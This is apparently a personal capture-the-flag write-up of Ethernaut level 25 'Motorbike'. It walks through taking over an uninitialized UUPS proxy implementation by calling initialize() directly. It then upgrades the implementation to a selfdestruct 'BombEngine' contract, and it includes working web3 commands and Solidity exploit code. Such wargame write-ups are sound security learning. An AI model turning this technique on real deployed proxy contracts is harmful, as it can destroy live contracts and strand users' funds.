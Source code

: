 ## Motorbike

1. In this contract we have to destroy the engine to make it unusable.

2. I followed this resource `https://dev.to/nvn/ethernaut-hacks-level-25-motorbike-397g` which explains it very well and i even watched d-sqaured and i deployed a uups from openzapplin tutorial from their blog `https://forum.openzeppelin.com/t/uups-proxies-tutorial-solidity
javascript/7786`
   and many other resources, i will leave this medium article `https://medium.com/@appsbylamby/ethernaut-25-motorbikewalkthrough-3e1feeee6a4c` for complementary resource if needed.

3. We get the data stored at slot for implementation address
   `implAddr = await web3.eth.getStorageAt(contract.address, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc')`
   we format data as address `implAddr = '0x' + implAddr.slice(-40)`

4. I will leave some explaination lines from the blog
   > Now, if we sent a transaction directly to initialize of Engine rather than going through proxy, the code will run in Engine's context rather than proxy's. That means the storage variables - initialized, initializing (inherited from Initializable), upgrader etc. will be read from Engine's storage slots. And these variables will most likely will contain their default values - false, false, 0x0 respectively because Engine was supposed to be only the logic layer, not storage.
   > And since initialized will be equal to false (default for bool) in context of Engine the initializer modifier on initialize method will pass!
   > Call the initialize at Engine's address i.e. at implAddr:
   > `initializeData = web3.eth.abi.encodeFunctionSignature("initialize()")` > `await web3.eth.sendTransaction({ from: player, to: implAddr, data: initializeData })`
5. paste from blog

   > Alright, invoking initialize method must've now set player as upgrader. Verify by:
   > `await web3.eth.call({from: player, to: implAddr, data: upgraderData}).then(v => '0x' + v.slice(-40).toLowerCase()) === player.toLowerCase()`

6. So, player is now eligible to upgrade the implementation contract now through upgradeToAndCall method. Let's create the following malicious contract - BombEngine in Remix:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

contract BombEngine {
    function explode() public {
        selfdestruct(address(0));
    }
}
```

7. After I did above steps i realized and remembered as of now evm does not have selfdestruct and i wonder if i will to solve this but then i copy pasted the steps and i am not explaining as they are straight forward so you can just go with them one by one

8. Actually these commands worked on goerli testnet where I am solving these

```javascript
bombAddr = "0x4aA37F91a9a02ba94F860309C882BDCAF84639fb";
explodeData = web3.eth.abi.encodeFunctionSignature("explode()");

upgradeSignature = {
  name: "upgradeToAndCall",
  type: "function",
  inputs: [
    {
      type: "address",
      name: "newImplementation",
    },
    {
      type: "bytes",
      name: "data",
    },
  ],
};

upgradeParams = [bombAddr, explodeData];

upgradeData = web3.eth.abi.encodeFunctionCall(upgradeSignature, upgradeParams);
```

`await web3.eth.sendTransaction({from: player, to: implAddr, data: upgradeData})`

9. success
